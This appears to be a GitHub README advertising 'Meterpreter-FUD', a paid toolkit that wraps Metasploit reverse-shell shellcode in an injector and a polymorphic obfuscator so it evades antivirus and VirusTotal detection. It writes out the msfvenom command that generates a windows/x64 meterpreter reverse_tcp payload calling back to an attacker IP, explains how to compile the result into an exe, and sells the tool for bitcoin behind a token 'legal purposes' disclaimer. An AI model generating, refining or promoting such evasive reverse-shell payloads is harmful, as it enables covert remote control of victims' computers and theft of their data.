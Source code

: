 # Meterpreter-FUD
Toolkit to create a Fud meterpreter, which bypass every Anti-Virus.

![Antiscan](https://user-images.githubusercontent.com/126344954/221409544-93b34748-e6cd-4e35-9352-9fde25290df3.png)

Watch the video!!

The Toolkit has 2 scripts, A shellcode injector and a obfuscator, you have to generate the payload via Metersploit and this command:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=4444 -f python

You put the shellcode into the shellcode.py file, then you run the main.py script and get a fud python script, which you can compile to a exe file

The output python script will always be different, because of the special obfuscator, so even if someone upload the script to virustotal, the new generated will not get detected. But pls dont upload ;) Only for LEGAL purposes!!!

Write an email to back-oor@proton.me to buy it, payments via bitcoin!
